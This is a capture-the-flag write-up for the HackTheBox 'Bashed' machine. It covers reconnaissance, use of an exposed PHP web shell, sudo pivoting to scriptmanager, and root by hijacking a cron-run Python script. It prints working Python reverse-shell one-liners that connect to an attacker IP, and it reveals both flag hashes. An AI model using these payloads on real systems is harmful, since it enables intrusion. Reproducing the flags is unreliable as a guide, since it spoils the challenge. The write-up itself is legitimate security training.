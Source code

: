 # Bashed

<div align="left">

<figure><img src="../.gitbook/assets/image.png" alt="" width="75"><figcaption><p>hackthebox.com - © HACKTHEBOX</p></figcaption></figure>

</div>

🔗 [Bashed](https://www.hackthebox.com/machines/bashed)

### Task 1 - Deploy the machine

🎯 Target IP: `10.xxxxxx`

Create a directory on the Desktop with the machine's name, and inside this directory, create another directory to store the materials and outputs needed to run the machine, including the scans made with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.129.236.215 bashed.htb" >> /etc/hosts

mkdir -p htb/bashed.htb
cd htb/bashed.htb
mkdir {nmap,content,exploits,scripts}
# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 bashed.htb
PING bashed.htb (10.129.236.215) 56(84) bytes of data.
64 bytes from bashed.htb (10.129.236.215): icmp_seq=1 ttl=63 time=67.3 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=2 ttl=63 time=64.2 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=3 ttl=63 time=79.4 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target should be a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 - How many open TCP ports are listening on Bashed??

```bash
nmap -p0- -sS -Pn -vvv bashed.htb -oN nmap/tcp_port_scan
```

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sS</td><td>SynScan</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there's 1 open TCP port on the machine: 80

{% hint style="info" %}
1
{% endhint %}

### 2.2 - What is the relative path on the webserver to a folder that contains phpbash.php??

Now, we take more precise scan utilizing -sCV flags to retrieve versioning services and test common scripts.

```bash
nmap -p80 -sS -Pn -n -v -sCV -T4 bashed.htb -oG nmap/port_scan
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
```

#### Port 80

Browsing webserver on port 80 via browser, that contains a web php bash.

<figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

Analyzing source code we don't found nothing of interesting, than we can discover more info about website using whatweb and do directory enumeration using gobuster.

```bash
whatweb bashed.htb
http://bashed.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.236.215], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

```
gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirb/common.txt
```

<div align="left">

<figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

</div>

Very good, we've found interisting web dir such as /dev and /uploads, exploring them we can answer at our question.

<figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
/dev
{% endhint %}

### 2.3 - What user is the webserver running as on Bashed?

The /dev directory contains two php webshell, more probably phpbash.min.php is a minimal bash or beta version while phpbash.php is full version.

In both cases, we immediately observe that the user in use is the same.

<figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
www-data
{% endhint %}

### Task 3 - Find user flag

### 3.1 - Submit the flag located in the arrexel user's home directory.

Navigating into file system is more simple discover users home directories and arrexel user's flag.

<figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

b2e6af7c997eba350b6cf95ad88240cb

</details>

### 3.2 - www-data can run any command as a user without a password. What is that user's username?

Using sudo -l we can see that www-data can run all commands on bashed as a user scriptmanager.

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
scriptmanager
{% endhint %}

### 3.3 - What folder in the system root can scriptmanager access that www-data could not?

Going into root dir / we can launch ls -l and see all permissions regarding directories.

<div align="left">

<figure><img src="../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

</div>

{% hint style="info" %}
/scripts
{% endhint %}

### 3.4 - What is filename of the file that is being run by root every couple minutes?

"Every couple minutes" is an hint to understand possibile route.

But, we decide to give a reverse shell on our attacker machine to optimize our work, to do it we need to make us in listening mode using netcat `nc -lvnp 1339` and execute a python script on web shell.

```python
export RHOST="10.10.14.6";export RPORT=1339;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<div align="left">

<figure><img src="../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

</div>

Remembering the question's hint and the last task, where only the scriptmanager can access the /scripts folder, we can access it as the scriptmanager user spawning a a bash shell

```bash
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Trying to use sudo -l commands, the system asks us for a password that we don't know.

Now, we've permissions access to /scripts dir, where we found two files:

<div align="left">

<figure><img src="../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

</div>

Additionally, the program `test.py` appears to be scheduled to execute almost every minute, based on the last access time of `test.txt`. From this, we can infer that there may be a cron job owned by root that automatically runs `test.py` every minute. We can confirm this by renaming `test.txt` (e.g., to `test.txt.old`) and observing that a new `test.txt` file is created after a minute or so."

This is useful because we can modify the contents of `test.py` to include reverse shell code, which would then execute with root privileges.

Next, let's create a new file named `test.py` on our Kali box and insert the same reverse shell code we used earlier. We'll then transfer this file to the target 'Bashed' machine.

```python
echo "import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('10.10.14.6',4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(['/bin/sh','-i']);" > test.py
```

{% hint style="info" %}
test.py
{% endhint %}

### Task 4 - Find root flag

### 4.1 - Submit the flag located in root's home directory.

Immediately before or at least within two minutes we listen with netcat on the attacker machine, and we obtain a shell with root permissions.

<div align="left">

<figure><img src="../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

</div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

40ca417765210f39b12b2d78813ebcfe

</details>
